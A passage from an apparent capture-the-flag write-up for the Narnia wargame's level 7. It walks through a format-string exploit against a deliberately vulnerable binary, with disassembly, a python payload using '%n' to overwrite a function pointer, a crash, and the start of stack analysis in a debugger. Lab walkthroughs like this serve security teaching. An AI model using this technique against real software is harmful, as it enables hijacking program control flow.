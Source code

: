         return 0;
}
```
Oh, it looks like the challenge is helping us again by giving away the functions' addresses! Sweet!
```
narnia7@narnia:/narnia$ ./narnia7 Give\ me\ the\ addresses,\ please?
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd568)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```
And, clearly, the obvious overflow here
```
        snprintf(buffer, sizeof buffer, format);
```
is practically begging us to overflow from ```buffer``` to ```ptrf```, by giving as input a buffer that exploits the same format string vulnerability we met a few levels ago.
From the disassembly we can get the exact location of ```ptrf```:
```
 80486b5:       8b 85 7c ff ff ff       mov    eax,DWORD PTR [ebp-0x84]
 80486bb:       ff d0                   call   eax
```
And the location of ```buffer``` from the ```memset``` call from the beginning:
```
 8048624:       68 80 00 00 00          push   0x80
 8048629:       6a 00                   push   0x0
 804862b:       8d 45 80                lea    eax,[ebp-0x80]
 804862e:       50                      push   eax
 804862f:       e8 bc fe ff ff          call   80484f0 <memset@plt>
```
Let's go ahead and use the same technique, but this time, instead of ```500-4``` let's overwrite it with ```0x8048724 - 4```, which is ```134514464```:
```
narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x68\xd5\xff\xff" + "%134514464x%1$n"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd568)
I guess you want to come to the hackedfunction...
Segmentation fault
```
Hmm, it didn't work? Let's analyze the stack frame before the execution of ```snprintf```:
```
gef➤  x/90bx $esp
                      address of buffer             sizeof buffer (128) 
0xffffd52c:    (0x3c	0xd5	0xff	0xff)  (0x80	0x00	0x00	0x00
                            format                          fptr
0xffffd534:    (0xca	0xd7	0xff	0xff)  (0xff	0x86	0x04	0x08)
                    beginning of buffer
0xffffd53c:    [0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd544:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd54c:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd554:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd55c:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd564:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd56c:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd574:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd57c:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd584:	0x00	0x00
```
```